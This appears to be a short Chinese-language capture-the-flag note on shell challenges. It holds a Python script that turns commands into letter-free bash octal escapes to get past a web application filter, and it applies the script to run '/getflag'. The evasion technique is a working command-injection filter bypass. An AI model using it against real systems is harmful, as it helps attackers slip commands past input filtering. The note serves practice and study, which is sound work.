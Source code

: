 tags:: CTF/Shell/利用进制转换构造无字母payload, CTF/Shell/WAF绕过

- # 1&2
	- ```python
	  
	  def zero_str():
	      return "$0"
	  
	  def num(n: int):
	      return str(n)
	  
	  def string(s: str):
	      return "$'" + "".join(
	          ["\\" + num(int(oct(ord(c))[2:]))
	              for c in s]
	      ) + "'"
	  
	  def payload(cmd):
	      return "{zero}<<<{zero}\\<\\<\\<{cmd}".format(
	          zero = zero_str(),
	          cmd = string(cmd)
	      )
	  
	  p = string("/getflag")
	  print(p)
	  ```
	- 把p交上去就行，注意转义
	- 参考[[CTF/Shell/利用进制转换构造无字母payload]]
- # 3
	-